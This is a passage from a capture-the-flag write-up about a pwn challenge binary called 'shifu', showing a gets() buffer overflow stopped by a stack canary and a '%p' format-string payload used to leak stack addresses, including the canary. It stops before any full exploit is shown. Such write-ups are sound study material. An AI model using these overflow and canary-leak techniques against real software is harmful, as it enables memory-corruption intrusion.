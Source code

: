 The idea of not using a format specifier can lead to leaking of address off the stack while the usage of get will cause a buffer overflow 

But now we know that we can cause a buffer overflow thanks to get() being used we can overflow the buffer. There's one problem stack canary is being used so when we corrupt a particular memory of the binary it will trigger the stack canary

Here's what i mean 

```
┌──(mark㉿haxor)-[~/Desktop/CTF/WinterCon/pwn]
└─$ python2 -c 'print "A"*200'                 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

┌──(mark㉿haxor)-[~/Desktop/CTF/WinterCon/pwn]
└─$ ./shifu
What is Your BICCodeName?
Agent: pwnzz
Welcome: pwnzz
Here is a gift for you: 0x7ff27fcb0450
Enter your agent!AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Syncing identify with secret > AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
Oops Imposter!!!
*** stack smashing detected ***: terminated
zsh: IOT instruction  ./shifu                           
```

We get `*** stack smashing detected ***: terminated` which is the cause from stack canary being used by the program 

How we can take advantage of this is through the usage of the format string vulnerability

Since it can be used to leak address off the stack we can potentially leak the canary address

But note that the stack canary address changes per runtime of the program

This is an example of leaking address off the stack

```
┌──(mark㉿haxor)-[~/Desktop/CTF/WinterCon/pwn]
└─$ ./shifu 
What is Your BICCodeName?
Agent: %p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
Welcome: 0x55cc7413007a.0x1.0x7f742cba2190.(nil).0x7f742ccaa6a0.Here is a gift for you: 0x7f742cafc450
Enter your agent!Syncing identify with secret > p.%p.%p.%p.%p.%p.%p.%p.%p.%p. 
Oops Imposter!!!
```

From that we've leaked address off the stack and how we can know that its the stack canary is because stack canary address ends with `00`
